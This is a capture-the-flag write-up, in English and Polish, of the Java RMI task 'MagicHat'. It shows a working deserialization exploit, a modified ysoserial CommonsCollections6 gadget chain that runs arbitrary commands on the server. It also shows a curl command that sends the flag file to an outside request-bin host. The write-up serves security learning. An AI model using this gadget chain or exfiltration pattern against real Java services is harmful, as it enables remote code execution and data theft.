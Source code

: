 # MagicHat (Pwn, 321p, 9 solved)

[PL](#pl-version)

In the task we get a [client](magic_hat_client.jar) for Java RMI application.
We can add this jar as a library in IntelliJ IDEA project, and it will decompile the code for us.

The code is rather simple, we establish a connection via RMI with the server and then we can place some objects inside Hat object, and send it to the server.
Server takes those objects and does some operations on them.

```java
Properties props = System.getProperties();
props.setProperty("javax.net.ssl.trustStore", "magic_hat_truststore");
props.setProperty("javax.net.ssl.trustStorePassword", "magic_hat");
Registry registry = LocateRegistry.getRegistry(InetAddress.getByName("magichat.teaser.insomnihack.ch").getHostName(), 51966, new SslRMIClientSocketFactory());
WizardAPI wizardAPI = (WizardAPI)registry.lookup("Wizard");
//
Hat magicHat = wizardAPI.getMagicHat();
//
magicHat.add(new Wand());
//
Pair<String, Hat> answer = wizardAPI.castASpell(magicHat);
magicHat = (Hat)answer.getRight();
System.out.println((String)answer.getLeft());
```

RMI has 2 types of objects which can be passed between remote endpoints - Remote objects (passed as proxies), and Serializable objects, passed in serialized form.
In our case every artifact we can place in the Hat is Serializable.
The Hat itself is simply:

```java
public class Hat extends Artifact {
    private Bag content = new HashBag();

    public void add(Artifact a) {
        this.content.add(a);
    }

    public String toString() {
        String str = super.toString();
        if (!this.content.isEmpty()) {
            str = str + " that contains: \n" + this.content.toString().replace(":", "x ").replace(',', '\n');
        }
        return str;
    }
}
```

The vulnerability here is that server endpoint deserializes objects we send. 
It might later crash with `ClassCastException` if the objects were not of the expected type, but they will be deserialized before that happens.
It's also worth understanding that Java doesn't have notion of generic types at runtime.
Pretty much any collection type can store any objects, also of totally unrelated types.
It means we can store anything in the `HashBag` in `Hat` class.

We used slightly modified payload from [ysoserial](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java).
We use the same approach, but instead of `HashSet` we create `HashBag`, we also used `Whitebox` to skip all the reflection madness:

```java
private static Hat preparePayload(String command) {
	// like in CommonsCollections6
	String[] execArgs = new String[]{command};
	Transformer[] transformers = new Transformer[]{new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}), new InvokerTransformer("exec", new Class[]{String.class}, execArgs), new ConstantTransformer(1)};
	Transformer transformerChain = new ChainedTransformer(transformers);
	Map innerMap = new HashMap();
	Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
	TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
	HashBag bagWithExploit = new HashBag();
	bagWithExploit.add(new Object());

	Map internalMap = Whitebox.getInternalState(bagWithExploit, "map");
	Object[] nodesArray = Whitebox.getInternalState(internalMap, "table");
	Object node = Arrays.stream(nodesArray)
			.filter(Objects::nonNull)
			.findFirst()
			.orElseThrow(() -> new RuntimeException("this can't happen"));
	Whitebox.setInternalState(node, "key", entry);

	Hat hat = new Hat();
	Whitebox.setInternalState(hat, "content", bagWithExploit);
	return hat;
}
```

Now we can simply send this `hat` to the server to invoke `command`.
We run the exploit with:

```java
    public static void main(final String[] args) throws Exception {
        Properties props = System.getProperties();
        props.setProperty("javax.net.ssl.trustStore", "magic_hat_truststore");
        props.setProperty("javax.net.ssl.trustStorePassword", "magic_hat");
        Registry registry = LocateRegistry.getRegistry(InetAddress.getByName("magichat.teaser.insomnihack.ch").getHostName(), 51966, new SslRMIClientSocketFactory());
        WizardAPI wizard = (WizardAPI) registry.lookup("Wizard");
        Scanner sc = new Scanner(System.in);
        while (true) {
            System.out.print("> ");
            execCommand(wizard, sc.nextLine());
        }
    }

    private static void execCommand(WizardAPI wizard, String command) {
        try {
            wizard.castASpell(preparePayload(command));
        } catch (Exception e) {
        }
    }
```

And we basically have RCE on the server, although without immediate echo, but we can always drop a reverse-shell.
After some poking around we find the `flag.txt` file in `/home/magic-hat` so we can grab it with:

`curl -d @/home/magic-hat/flag.txt -X POST https://requestb.in/blablabla`

And we get: `INS{lol_ur_a_lizard_Gary!}`

### PL version

W zadaniu dostajemy [klienta](magic_hat_client.jar) dla aplikacji Java RMI.
Możemy dodać ten jar jako bibliotekę w IntelliJ IDEA żeby automatycznie zobaczyć zdekompilowany kod.

Kod jest dość prosty, łączymy się z serwerem za pomocą RMI, następnie możemy dodać pewne obiekty do obiektu Hat a potem wysłać je do serwera.
Serwer bierze te obiekty i wykonuje na nich pewne operacje.

```java
Properties props = System.getProperties();
props.setProperty("javax.net.ssl.trustStore", "magic_hat_truststore");
props.setProperty("javax.net.ssl.trustStorePassword", "magic_hat");
Registry registry = LocateRegistry.getRegistry(InetAddress.getByName("magichat.teaser.insomnihack.ch").getHostName(), 51966, new SslRMIClientSocketFactory());
WizardAPI wizardAPI = (WizardAPI)registry.lookup("Wizard");
//
Hat magicHat = wizardAPI.getMagicHat();
//
magicHat.add(new Wand());
//
Pair<String, Hat> answer = wizardAPI.castASpell(magicHat);
magicHat = (Hat)answer.getRight();
System.out.println((String)answer.getLeft());
```

RMI pozwala na przekazywanie pomiędzy zdalnymi klientami 2 typów obiektów - obiekty Remote (przesyłane jako proxy) oraz obiekty Serializable, w formie zserializowanej.
W naszym przypadku wszystkie artefakty które możemy umieścić w Hat są Serializable.
Klasa Hat to po prostu:

```java
public class Hat extends Artifact {
    private Bag content = new HashBag();

    public void add(Artifact a) {
        this.content.add(a);
    }

    public String toString() {
        String str = super.toString();
        if (!this.content.isEmpty()) {
            str = str + " that contains: \n" + this.content.toString().replace(":", "x ").replace(',', '\n');
        }
        return str;
    }
}
```

Podatność w tym zadaniu polega na tym, że serwer musi zdeserializować obiekty które mu przesyłamy.
Później może to wysypać program z `ClassCastException` jeśli wyślemy obiekty nieoczekiwanego typu, ale mimo wszystko muszą zostać zdeserializowane.
Warto pamiętać też że Java nie ma na poziomie wykonania czegoś takiego jak typy generyczne.
Każda kolekcja obiektów może przechowywać obiekty dowolnych, niezwiązanych ze sobą, typów.
To oznacza że w obiekcie `HashBag` w klasie `Hat` możemy przechowywać cokolwiek.

Użyliśmy lekko zmodyfikowanego payloadu z [ysoserial](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java).
Używamy tego samego podejścia ale zamiast `HashSet` tworzmy `HashBag`. 
Używamy też `Whitebox` żeby pozbyć się całego szaleństwa związanego z refleksją.

```java
private static Hat preparePayload(String command) {
	// like in CommonsCollections6
	String[] execArgs = new String[]{command};
	Transformer[] transformers = new Transformer[]{new ConstantTransformer(Runtime.class), new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[0]}), new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}), new InvokerTransformer("exec", new Class[]{String.class}, execArgs), new ConstantTransformer(1)};
	Transformer transformerChain = new ChainedTransformer(transformers);
	Map innerMap = new HashMap();
	Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
	TiedMapEntry entry = new TiedMapEntry(lazyMap, "foo");
	HashBag bagWithExploit = new HashBag();
	bagWithExploit.add(new Object());

	Map internalMap = Whitebox.getInternalState(bagWithExploit, "map");
	Object[] nodesArray = Whitebox.getInternalState(internalMap, "table");
	Object node = Arrays.stream(nodesArray)
			.filter(Objects::nonNull)
			.findFirst()
			.orElseThrow(() -> new RuntimeException("this can't happen"));
	Whitebox.setInternalState(node, "key", entry);

	Hat hat = new Hat();
	Whitebox.setInternalState(hat, "content", bagWithExploit);
	return hat;
}
```

Tak przygotowany `hat` możemy teraz wysłać do serwera, co spowoduje wykonanie `command`.
Uruchamiamy ten exploit przez:

```java
    public static void main(final String[] args) throws Exception {
        Properties props = System.getProperties();
        props.setProperty("javax.net.ssl.trustStore", "magic_hat_truststore");
        props.setProperty("javax.net.ssl.trustStorePassword", "magic_hat");
        Registry registry = LocateRegistry.getRegistry(InetAddress.getByName("magichat.teaser.insomnihack.ch").getHostName(), 51966, new SslRMIClientSocketFactory());
        WizardAPI wizard = (WizardAPI) registry.lookup("Wizard");
        Scanner sc = new Scanner(System.in);
        while (true) {
            System.out.print("> ");
            execCommand(wizard, sc.nextLine());
        }
    }

    private static void execCommand(WizardAPI wizard, String command) {
        try {
            wizard.castASpell(preparePayload(command));
        } catch (Exception e) {
        }
    }
```

W ten sposób mamy generalnie RCE na serwerze, chociaż bez echa, ale możemy zawsze uruchomić sobie reverse-shell.
Po chwili rozglądania się po serwerze znajdujemy plik `flag.txt` w `/home/magic-hat` i możemy pobrać go przez:

`curl -d @/home/magic-hat/flag.txt -X POST https://requestb.in/blablabla`

Dostajemy: `INS{lol_ur_a_lizard_Gary!}`
